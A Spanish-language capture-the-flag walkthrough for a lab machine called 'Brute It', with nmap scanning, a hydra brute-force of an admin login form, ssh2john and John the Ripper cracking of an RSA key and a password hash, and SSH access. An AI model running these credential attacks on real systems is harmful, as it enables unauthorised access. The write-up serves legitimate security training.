










# Brute It

## Scanning
```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.106.96 -oG allports
nmap -sC -sV -p 22,80 10.10.106.96 -oN targeted
```


## 80



Encontramos un enlace en la ruta `/admin`, donde tenemos un panel de administración.



Si vemos en el código fuente encontramos el usuario.



Podemos usar hydra para encontrar la contraseña.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.106.96 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```



## User Flag

En la página encontramos una flag y un **rsa private key** para descargar. Nos piden realizar fuerza bruta al rsa así que usamos una funcionalidad en parrot llamada ssh2john.

```bash
python2 /usr/share/john/ssh2john.py id_rsa> rsajohn
```

Con eso podemos usar john the ripper para crackear la contraseña.



Ahora podremos entrar por ssh (con el usuario john)

```bash
sudo ssh john@10.10.106.96 -i id_rsa
```



## Escala de privilegios

Buscamos si tenemos algún permiso como sudo.

```bash
sudo -l
```



Ahora con el hash lo guardamos en un archivo en nuestra computadora y usamos john para crackear la contraseña.

```bash
john password --wordlist=/usr/share/wordlists/rockyou.txt
```



Lo probamos en la consola del otro lado.

